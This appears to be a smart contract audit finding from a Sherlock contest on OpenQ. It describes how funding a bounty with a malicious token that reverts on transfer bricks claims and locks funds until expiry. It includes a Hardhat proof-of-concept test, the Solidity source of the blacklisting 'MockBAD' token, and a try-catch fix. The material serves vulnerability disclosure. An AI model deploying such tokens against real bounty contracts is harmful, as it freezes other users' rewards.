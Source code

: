 carrot

high

# Bounties can be broken by funding them with malicious ERC20/ERC721 tokens

## Summary
Any malicious user can fund a bounty contract with a malicious ERC20/ERC721 contract and prevent winners from withdrawing their rewards.
## Vulnerability Detail
The `DepositManagerV1` contract allows any user to fund any bounty with any token, as long as the following check passes in `fundBountyToken` function
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/DepositManager/Implementations/DepositManagerV1.sol#L45-L50
This check always passes as long as `tokenAddressLimitReacehd` is false, which will be the case for most cases and is a reasonable assumption to make. 

The claims are handled by the `claimManagerV1` contract, which relies on every single deposited token to be successfully transferred to the target address, as can be seen with the snippet below, taken from the function `_claimAtomicBounty`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/ClaimManager/Implementations/ClaimManagerV1.sol#L123-L134
and the `claimBalance` function eventually ends up using the `safeTransfer` function from the Address library to carry out the transfer as seen in `BountyCore.sol:221`
https://github.com/sherlock-audit/2023-02-openq/blob/main/contracts/Bounty/Implementations/BountyCore.sol#L221-L228
However, if any of the tokens end up reverting during the `safeTransfer` call, the entire claiming call is reverted. It is quite easy for an attacker to fund the bounty with such a malicious contract, and this would essentially brick the bounty preventing the claims from being processed. This will also lock up the funds in the contract until expiry, which can be an indefinite amount of time.

This attack can be carried out in the following bounty types:
1. AtomicBountyV1
2. TieredFixedBounty
3. TieredPercentageBounty

by either using malicious ERC20 or ERC721 tokens following the same attack vector.

## Impact
Bricking of bounty and lock up of funds until expiry timestamp
## Code Snippet
The attack can be recreated using the following test snippet
```javascript
it('should revert when holding malicious token', async () => {
          // ARRANGE
          const volume = 100
          await openQProxy.mintBounty(
            Constants.bountyId,
            Constants.organization,
            atomicBountyInitOperation
          )
          const bountyAddress = await openQProxy.bountyIdToAddress(
            Constants.bountyId
          )
          await depositManager.fundBountyToken(
            bountyAddress,
            ethers.constants.AddressZero,
            volume,
            1,
            Constants.funderUuid,
            { value: volume }
          )

          // Attacker funds with bad token
          const attacker = claimantThirdPlace
          const MockBAD = await ethers.getContractFactory('MockBAD')
          const mockBAD = await MockBAD.connect(attacker).deploy()
          await mockBAD.deployed()
          await mockBAD.connect(attacker).approve(bountyAddress, 10000000)
          await depositManager
            .connect(attacker)
            .fundBountyToken(
              bountyAddress,
              mockBAD.address,
              volume,
              1,
              Constants.funderUuid
            )
          // Blacklist malicious token
          await mockBAD.connect(attacker).setBlacklist(bountyAddress)

          // ACT
          await expect(
            claimManager
              .connect(oracle)
              .claimBounty(
                bountyAddress,
                claimant.address,
                abiEncodedSingleCloserData
              )
          ).to.be.revertedWith('blacklisted')
        })
```
Where the `mockBAD` token is defined as follows, with a malicious blacklist:
```solidity
contract MockBAD is ERC20 {
    address public admin;
    address public blacklist;

    constructor() ERC20('Mock DAI', 'mDAI') {
        blacklist = address(1);
        _mint(msg.sender, 10000 * 10 ** 18);
        admin = msg.sender;
    }

    function setBlacklist(address _blacklist) external {
        require(msg.sender == admin, 'only admin');
        blacklist = _blacklist;
    }

    function _beforeTokenTransfer(
        address from,
        address to,
        uint256 amount
    ) internal virtual override {
        require(from != blacklist, 'blacklisted');
        super._beforeTokenTransfer(from, to, amount);
    }
}
```

## Tool used
Hardhat
Manual Review

## Recommendation
Use a try-catch block when transferring out tokens with `claimManager.sol`. This will ensure that even if there are malicious tokens, they wont revert the entire transaction.